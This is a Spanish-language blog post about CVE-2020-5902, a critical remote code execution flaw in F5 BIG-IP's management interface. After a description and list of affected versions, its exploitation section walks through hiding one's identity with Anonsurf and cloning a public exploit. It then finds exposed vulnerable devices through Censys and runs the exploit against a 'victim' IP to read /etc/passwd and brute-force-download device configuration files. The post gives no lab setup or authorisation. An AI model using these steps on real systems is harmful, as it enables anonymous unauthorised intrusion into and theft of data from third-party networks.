 ```yaml
---
layout: single
title: Explotación de CVE-2020-5902 - Vulnerabilidades
excerpt: "Una vulnerabilidad de ejecución remota de código de proxy/equilibrador de carga F5 BIG-IP® 8."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png
  teaser_home_page: true
  icon: /assets/images/f5.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-5902
  - f5
  - rce
  - censys
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png)

# Descripción

BIG-IP es un dispositivo de red multipropósito muy popular que es utilizado por una gran cantidad de compañías que manejan información sensible a lo largo del mundo. Los dispositivos BIG-IP son utilizados tanto en redes gubernamentales y de proveedores de servicios de Internet (ISPs), así como por bancos a lo largo del mundo y muchas redes empresariales. Según explica F5 en su sitio web, este producto es utilizado por 48 compañías que integran la lista Fortune 50. De hecho, dada la criticidad de la vulnerabilidad y su potencial impacto, el Cibercomando de Estados Unidos replicó la advertencia emitida por la compañía y llamó a instalar el parche que repara el fallo lo antes posible.

CVE-2020-5902 es una vulnerabilidad crítica en la interfaz de usuario de administración de tráfico BIG-IP (TMUI) también conocida como la utilidad de configuración. La vulnerabilidad recibió una calificación CVSSv3 de 10.0, la puntuación más alta posible. La vulnerabilidad se puede explotar cuando el acceso de red a la TMUI se expone a través del puerto de administración BIG-IP o las IP automáticas. La explotación exitosa de este defecto concedería a un atacante una variedad de privilegios, incluyendo la capacidad de ejecutar comandos arbitrarios del sistema o código Java, crear o eliminar archivos, así como deshabilitar los servicios en el host vulnerable. El asesor afirma que la vulnerabilidad también podría "resultar en un compromiso completo del sistema".

# Productos Afectados:

BIG-IP (LTM, AAM, WAF avanzado, AFM, análisis, APM, ASM, DDHD, DNS, FPS, GTM, controlador de enlace, PEM, SSLO, CGNAT), Rma 11x, 12x, 13x, 14x, 15x, 16x., versiones 11.6.1 - 11.6.5, 12.1.0-12.1.5,13.1.0-13.1.3,14.1.0-14.1.2,15.1.0 - 15.0.1.


# Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59022.png)

Procedemos a clonar el paquete de Git Hub con el exploit de la vulnerabilidad.

•	git clone https://github.com/yasserjanah/CVE-2020-5902

Ingresamos al directorio descargado

•	cd CVE-2020-5902/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59023.png)

Realizamos la siguiente instalación dentro del directorio.

•	pip3 install -r ./requirements.txt

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59024.png)

Realizamos la búsqueda de un equipo vulnerable en la página de Censys con la vulnerabilidad “BIG-IP & reg”.

•	https://censys.io/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59025.png)

Ejecutamos el exploit con extensión .py que está dentro del directorio.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -f /etc/passwd

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59026.png)

Usamos -b para archivos de fuerza bruta de una lista de palabras.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -b

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59027.png)

Al finalizar el comando, nos dirigimos en donde se almacenan los resultados del exploit y podremos observar cómo descarga los archivos de las diferentes configuraciones del dispositivo.

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59028.png)




